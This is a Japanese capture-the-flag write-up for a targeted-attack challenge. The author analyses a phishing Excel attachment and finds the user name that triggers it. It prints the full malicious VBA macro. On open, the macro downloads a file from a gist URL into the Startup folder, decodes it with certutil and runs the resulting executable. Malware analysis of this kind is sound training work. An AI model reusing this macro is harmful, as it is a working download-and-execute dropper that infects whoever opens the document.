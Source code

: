 # 標的攻撃I★★☆

```
ある日、株式会社マクニキにフィッシングメールのが届きました。メールを転送されたてしがわら君はその添付ファイル「製品価格一覧20180711.xls」を解析した。しかし、残念ながら、サンドボックス上では解析はできなかったため、手動で解析するととにしました。 特定のユーザ名の環境でないと動作しないようです。ファイルを調査して動作条件であるユーザ名を特定してください。（複数ある場合は一つのみ回答してください）。

パスワードは「infected」です。
```

エクセルに含まれているマルウェアの解析は初めてだ。

渡されたファイルを開き、マクロを無効化を選択。  

ツール→マクロ→マクロの編集

をクリックしマクロを確認すると`ThisWorkbook`という名前でVBAのマクロが見つかる。

```vb
Rem Attribute VBA_ModuleType=VBADocumentModule
Option VBASupport 1
Private Declare Sub Sleep Lib "kernel32" (ByVal ms As Long)

Private Sub Workbook_Open()

us = Application.UserName

For Each C In ActiveSheet.Range("C6:C11")
    If us = C.Value Then
        Set objShell = CreateObject("WScript.Shell")
        startupFolder = objShell.SpecialFolders("Startup")
        Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
        Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
        xHttp.Open "GET", "https://gist.githubusercontent.com/Sh1n0g1/3a240ce15fe7f26263ddf1877e5acc38/raw/d1d74601e5f4c94c958130accb16add9bb16e33d/cert", False
        xHttp.Send
        With bStrm
            .Type = 1 '//binary
            .Open
            .write xHttp.responseBody
            .savetofile startupFolder & "\cert.pem", 2 '//overwrite
        End With
        Sleep (10000)
        Shell "certutil -decode """ & startupFolder & "\cert.pem"" """ & startupFolder & "\cert.exe"""
        Sleep (5000)
        Shell startupFolder & "\cert.exe"
    End If
Next

End Sub
```

スクリプトを見てみると

```vb
us = Application.UserName
```

でユーザ名を取得し、

```vb
For Each C In ActiveSheet.Range("C6:C11")
    If us = C.Value Then
    ...
```

で`C:6:C11`のセルに含まれている文字とユーザ名を比較していることがわかる

エクセルシートを確認するとCのタブ細くなって隠されているので伸ばして確認すると文字が出てくるのでフラグが入手できる。